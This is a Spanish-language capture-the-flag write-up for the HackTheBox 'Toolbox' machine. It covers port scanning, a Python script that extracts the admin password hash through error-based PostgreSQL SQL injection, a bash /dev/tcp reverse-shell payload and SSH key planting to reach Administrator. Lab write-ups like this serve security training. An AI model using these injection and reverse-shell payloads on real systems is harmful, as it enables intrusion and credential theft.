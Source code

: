 ```yaml
---
title: HackTheBox - Toolbox
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'Default Credentials', 'SQL Injection', 'Docker Toolbox']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Toolbox/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Toolbox Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **Default Credentials, SQL Injection, Docker Toolbox**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Toolbox**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/HTB/Easy/Toolbox/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

  ![](/assets/images/HTB/Easy/Toolbox/02-versions.png)

  * Conseguimos un dominio **admin.megalogistic.com** el cual añadiremos al archivo **/etc/hosts**.
  * Vemos un fichero **docker-toolbox.exe** en el servicio FTP.

c. Visitamos el dominio **https://admin.megalogistic.com**

![](/assets/images/HTB/Easy/Toolbox/03-web.png)

* Aquí intentaremos una **inyección sql** y al momento de ingresar una sentencia incorrecta veremos un mensaje el cual nos dirá que base de datos se usa

  ![](/assets/images/HTB/Easy/Toolbox/04-db.png)

* Inyecciones SQL en [PostgreSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

* Automatizamos la inyección sql basada en error con **python** para obtener la contraseña del usuario **admin**

  * Basándonos en la lógica del script y la inyección previamente obtenemos el nombre actual de la base de datos **test**, una tabla **users** y sus columnas **username,password**

    ```python
    import requests
    import string
    from pwn import *
    import sys
    import signal
    import urllib3

    def exit_handler(sig, frame) -> None:
      print("[!] Exit")
      sys.exit(1)

    def get_currentdb() -> None:
      global_string = string.ascii_letters + string.digits + string.punctuation + ' '
      main_url = "https://admin.megalogistic.com/"

      bar_1 = log.progress("Brute Force")
      bar_1.status("Starting Brute Force...")
      bar_2 = log.progress("admin password")
      headers = {"Cookie" : "PHPSESSID=[Cambiar]", "Content-Type": "application/x-www-form-urlencoded"}
      password = ""
      lenght = 0
      for index in range(1,50):
        for character in global_string:
          data = {"username":f"admin'||(select case when substring(password,{index},1)='{character}' then 1/(select 0) else NULL end from users limit 1)-- -", "password": "admin"}
          bar_1.status(data["username"])
          r = requests.post(main_url, headers=headers, data=data, verify=False)
          if('division by zero in' in r.text):
            lenght += 1
            password += character
            bar_2.status(str(lenght) + ': ' + password)
            break

    if __name__ == "__main__":
      urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
      signal.signal(signal.SIGINT, exit_handler)
      get_currentdb()
    ```


* Esta credencial está hasheada con **MD5**, la obtenemos en texto claro

  ```bash
  [>] Brute Force: admin'||(select case when substring(password,39,1)='C' then 1/(select 0) else NULL end from users limit 1)-- -
  [..../...] admin password: 42: 4a100a85cb5ca3616dcf137918550815
  
  dcode 4a100a85cb5ca3616dcf137918550815
  [+] Cracked MD5 Hash : iamzeadmin
  ```

d. Al autenticarnos estaremos en un **dashboard** en el que no vemos información relevante, con lo cual intentaremos ejecutar comandos con la inyección sql [RCE con PostreSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)

* Usaremos el payload

  ![](/assets/images/HTB/Easy/Toolbox/05-payload.png)

* Levantamos un servidor con **python** y enviaremos la petición con **BurpSuite**

  ![](/assets/images/HTB/Easy/Toolbox/06-burp.png)

  > A pesar de ver una error en la ejecución del comando, nos llega la petición con el **output del comando** en base64 a nuestro servidor de python.


* Nos entablaremos una reverse shell, para esto nos ponemos en escucha previamente con **nc** y enviaremos la siguiente petición con **BurpSuite**

  * El payload usado es: **`bash -c "bash -i >& /dev/tcp/<tun0 IP>/443 0>&1"`**

    ![](/assets/images/HTB/Easy/Toolbox/07-reverse.png)

    ```bash
    nc -lvnp 443
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
    ```

e. Vemos que estamos en un contenedor

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255

postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ uname -a
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
```

* Con la información reunida consultamos sobre **Boot2Docker** y **Docker-ToolBox**. Encontramos una forma de [autenticarnos en ssh](https://stackoverflow.com/questions/30330442/how-to-ssh-into-docker-machine-virtualbox-instance)

  ```bash
  postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
  docker@172.17.0.1's password: 
    ( '>')
    /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
  (/-_--_-\)           www.tinycorelinux.net

  docker@box:~$
  ```

### Escalada de Privilegios 💹

a. Exploramos este host

```bash
docker@box:/c/Users/Administrator$ ls -al                                      
total 1613
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 Aug 28 15:13 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
```

* Encontramos un directorio **.ssh** en el que podemos meter nuestra clave pública **authorized_keys**

  ```bash
  docker@box:/c/Users/Administrator/.ssh$ ls                                     
  authorized_keys  id_rsa           id_rsa.pub       known_hosts
  ```

* Generemos un par de claves en nuestra **Máquina Atacante**

  ```bash
  ❯ ssh-keygen
  ❯ ls
  id_rsa   id_rsa.pub
  ```

* Copiamos la clave **id_rsa.pub** en el archivo **authorized_keys** del host docker

  ```bash
  docker@box:/c/Users/Administrator/.ssh$ echo -n 'id_rsa.pub' > authorized_keys
  ```

b. Ya con esto podemos acceder como **administrator** en el servicio SSH

```bash
root@kali~/.ssh> ssh administrator@10.10.10.236

Microsoft Windows [Version 10.0.17763.1039] 
administrator@TOOLBOX C:\Users\Administrator>
```


